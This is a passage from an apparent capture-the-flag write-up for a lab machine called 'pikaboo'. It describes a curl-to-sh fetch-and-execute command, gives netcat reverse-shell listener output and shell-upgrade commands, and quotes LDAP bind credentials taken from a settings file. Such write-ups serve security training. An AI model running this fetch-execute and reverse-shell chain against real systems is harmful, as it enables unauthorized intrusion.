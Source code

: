Now we can send a command to curl our webserver and pipe the result to `sh`, leading in a hit on our webserver followed by a connection from the target back to us.

[![burp_exec](/img/pikaboo/burp_exec.png)](/img/pikaboo/burp_exec.png)

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.44.70 - - [18/Jul/2021 01:30:10] "GET / HTTP/1.1" 200 -
```

We upgrade our reverse shell fix the terminal size and can pick up the user flag in the home directory of pwnmeow.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.44.70.
Ncat: Connection from 10.129.44.70:57152.
bash: cannot set terminal process group (670): Inappropriate ioctl for device
bash: no job control in this shell
www-data@pikaboo:/var/www/html/admin_staging$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ing$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@pikaboo:/var/www/html/admin_staging$ export TERM=xterm
export TERM=xterm
www-data@pikaboo:/var/www/html/admin_staging$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

www-data@pikaboo:/var/www/html/admin_staging$ stty rows 55 cols 236
```

```
www-data@pikaboo:/var/www/html/admin_staging$ wc -c /home/pwnmeow/user.txt
33 /home/pwnmeow/user.txt
```


# Root

The next step is also coincidentally outlined in the post by orange tsai. The web app has a `settings.py` file which contains the database credentials for ldap `binduser:J~42%W?PFHl]g`.
